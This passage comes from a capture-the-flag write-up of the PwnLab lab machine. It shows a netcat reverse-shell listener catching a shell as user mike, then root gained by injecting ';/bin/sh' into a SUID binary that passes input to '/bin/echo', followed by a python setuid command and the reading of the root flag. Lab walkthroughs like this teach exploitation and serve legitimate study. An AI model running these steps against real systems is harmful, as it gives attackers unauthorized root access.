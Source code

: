 We set up a netcat listener and execute the msgmike binary.

```bash
kane@pwnlab:/tmp$ /home/kane/msgmike
/home/kane/msgmike 
```

We have a shell as user mike.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.176] 43777
id
uid=1002(mike) gid=1002(mike) groups=1002(mike),1003(kane)
script -qc /bin/bash /dev/null
mike@pwnlab:/tmp$
```

In mike's home directory there is another binary with the SUID bit enabled, this writes the input provided by the user to a file called messages.txt in the root directory.

```bash
mike@pwnlab:/tmp$ cd /home/mike
cd /home/mike
mike@pwnlab:/home/mike$ ls -la msg2root
ls -la msg2root
-rwsr-sr-x 1 root root 5364 Mar 17  2016 msg2root

mike@pwnlab:/home/mike$ strings ./msg2root
strings ./msg2root
...
Message for root:                                                                                                                                                   
/bin/echo %s >> /root/messages.txt
...
```

## Privilege Escalation
### SUID Binary

We can get a root shell by simply entering a semicolon followed by /bin/bash.

```bash
mike@pwnlab:/home/mike$ ./msg2root
./msg2root
Message for root: ;/bin/sh
;/bin/sh

# id
id
uid=1002(mike) gid=1002(mike) euid=0(root) egid=0(root) groups=0(root),1003(kane)

# python -c "import os; os.setuid(0); os.setgid(0); os.system('/bin/bash')"
python -c "import os; os.setuid(0); os.setgid(0); os.system('/bin/bash')"
root@pwnlab:/home/mike# cd /root
cd /root
root@pwnlab:/root# ls
ls
flag.txt  messages.txt


root@pwnlab:/root# /bin/cat flag.txt
/bin/cat flag.txt
.-=~=-.                                                                 .-=~=-.
(__  _)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(__  _)
(_ ___)  _____                             _                            (_ ___)
```